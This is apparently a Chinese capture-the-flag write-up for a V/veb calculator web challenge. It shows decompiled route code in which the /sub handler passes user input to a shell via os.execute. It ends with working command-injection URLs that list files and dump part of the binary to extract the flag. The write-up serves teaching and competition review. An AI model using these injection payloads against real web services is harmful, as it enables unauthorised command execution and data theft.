

## 简易计算器

题目:

> 我们发现vlang的轮子还是有点太少了
> 
> 出题人:sudopacman
> 
> 附件:https://wwtk.lanzoum.com/ifsqx2dugtwd
> 
> 远程环境:139.155.139.109:10005

本题为veb实现的简单网站, 提供两种做题方式:

### 模糊测试

对开放的三个路由进行测试, 可以发现sub使用了`sh`, 例如本地执行文件(使用linux环境执行, archlinux中存在兼容问题, 请使用debian类发行版)访问:http://localhost:10005/sub/;时返还`sh: 1: arithmetic expression: expecting primary: ";"`

同样访问其他两个路由无法绕过.

> 这里涉及到算术的简化问题, 因为加法和乘法不分前后, 是可以简单计算的, 但是减法涉及到了减数和被减数, 无法粗暴计算, 本题为简化代码于是直接调用dash进行计算, 出现注入口.

故可以构造exp, 参考下文.

### 逆向审计

```C
// Attr: [/add/:addsb]
VV_LOCAL_SYMBOL veb__Result main__App_addsb(main__App* app, main__Context* ctx, string addsb) {
        Array_string data = string_split(addsb, _SLIT("+"));
        int a = 0;
        for (int _t1 = 0; _t1 < data.len; ++_t1) {
                string i = ((string*)data.data)[_t1];
                a += string_int(i);
        }
        veb__Result _t2 = veb__Context_text(&ctx->Context, int_str(a));
        return _t2;
}

// Attr: [/sub/:subsb]VV_LOCAL_SYMBOL veb__Result main__App_subsb(main__App* app, main__Context* ctx, string subsb) {
        os__Result data = os__execute(string__plus(string__plus(_SLIT("echo $(("), subsb), _SLIT("))")));
        veb__Result _t1 = veb__Context_text(&ctx->Context, data.output);
        return _t1;
}

// Attr: [/sub/:mulsb]
VV_LOCAL_SYMBOL veb__Result main__App_mulsb(main__App* app, main__Context* ctx, string mulsb) {
        Array_string data = string_split(mulsb, _SLIT("*"));
        int a = 0;
        for (int _t1 = 0; _t1 < data.len; ++_t1) {
                string i = ((string*)data.data)[_t1];
                a *= string_int(i);
        }
        veb__Result _t2 = veb__Context_text(&ctx->Context, int_str(a));
        return _t2;
}
```

对三个路由进行审计, v中使用了`os__execute`(即`os.execute`函数)创建一个新进程调用echo进行计算, 题目运维已经想办法让其变得不安全, 故选手可以直接构造exp想办法获取sh.

有个地方设计我自认为设计得比较有趣, flag存放在编译好的web环境中, 如果没拿到shell的话处理起来会比较麻烦, 有一种粗暴的方法, 我们可以在本地环境找到flag的大致区间5000-5100(实际在相同情况下编译的字符位置的偏差不会那么大, 这里考虑为拿到相似程序进行处理), 然后直接对程序进行`cat`.

### EXP

```Python
/sub/0));ls;echo $((00
main
nohup.out
0

/sub/0));cat main|head -n 5100|tail -n +5000;echo $((0
```



> 这里向选手们道歉, 题目处理中存在一点问题, 导致服务器经常崩溃, 后续换上自动化恢复题目时忘记限制权限, 导致可以直接获取其他flag, 最终颁奖时严格审查wp, 尽量保证选手的公平性.
> 
> 这里特别感谢roko师傅对问题进行反馈.
